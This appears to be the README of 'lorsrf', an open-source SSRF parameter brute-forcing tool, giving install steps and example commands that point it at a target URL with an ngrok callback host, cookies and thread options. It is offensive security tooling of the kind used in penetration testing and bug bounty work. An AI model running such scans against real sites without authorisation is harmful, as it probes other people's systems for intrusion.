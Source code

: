# lorsrf
SSRF parameter bruteforce tool


## install
* download it 
```bash
➜  git clone https://github.com/knassar702/lorsrf
➜  cd lorsrf
➜  sudo pip3 install requests
```
* install <a href='https://www.youtube.com/watch?v=4sF1ATYwr3U'>ngrok tool </a>

## Steps :
* run your ngrok
` ./ngrok http 9090`
* run `server.py` script and add ngrok port
`python3 server.py 9090`
* run `lorsrf.py` and add ngrok host using `-s` option

## How can i use it .? 

`cat YOUR_LIST.txt | python3 lorsrf.py -t URL_TARGET -s YOUR_HOST`
  ## Examples :
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io
```
  * add threads
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io --threads=50
```
  * add timeout
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io --timeout=4
```
  * add cookies
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io -c 'user=5&PHPSESSION=5232'
```
  * Follow redirects
```bash
$ cat paramters.txt | python3 lorsrf.py -t http://target.com -s http://53252.ngrok.io -r
```

## GIF
<img src='src/lorsrf.gif'>
